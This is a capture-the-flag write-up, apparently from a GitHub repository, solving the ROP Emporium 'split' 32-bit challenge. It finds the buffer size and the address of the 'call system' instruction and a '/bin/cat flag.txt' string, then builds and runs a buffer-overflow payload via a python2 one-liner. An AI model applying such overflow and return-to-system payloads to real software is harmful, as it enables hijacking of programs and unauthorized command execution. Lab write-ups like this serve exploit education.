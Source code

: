 ### split
The problem guides has told you that same as ret2win, there is a 0x20 buffer, which can be overflowed, and there is still a syscall in a function named usefulFunction. 

But as in ret2win32, the buffer is actually 0x28 bytes.

First, check the binarat security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x28 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
08048615 68 0e 87        PUSH       s_/bin/ls_0804870e                               = "/bin/ls"
04 08
0804861a e8 c1 fd        CALL       system                                           int system(char * __command)
ff ff
...
```
Therefore, need to modify the command in the syscall, try to push "/bin/cat flag.txt" into the stack.

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
0804a030 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x0804a030.

Because the syscall use value in stack as its argument. Therefore, the only thing we need to do is push this value into stack right after the return address(this return address should jump to syscall address, in order to execute syscall).

Then, we can construct our overflow strings.

Same as ret2win32, buffer size is 0x28, and a rbp address, so the strings should be:
```
strings = 'A'*40(40 bytes) + rbp(4 bytes) = 'A' * 44 //overflow 0x28 buffer and rbp register
```
Then, we jump to the syscall address.
we need to push the "/bin/cat flag.txt" address into stack, which will be used as syscall argument:
```
'\x1a\x86\x04\x08' //syscall address
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument will be modified to "/bin/ls" again.

```
'\x30\xa0\x04\x08' //the value we want to push into stack, and will be used as syscall argument. 
```
The overflow string will be:
```
'A'*44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08'
```
Run the program with input:
```
python2 -c "print 'A'*44 + '\x1a\x86\x04\x08' + '\x30\xa0\x04\x08'" | ./split32
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
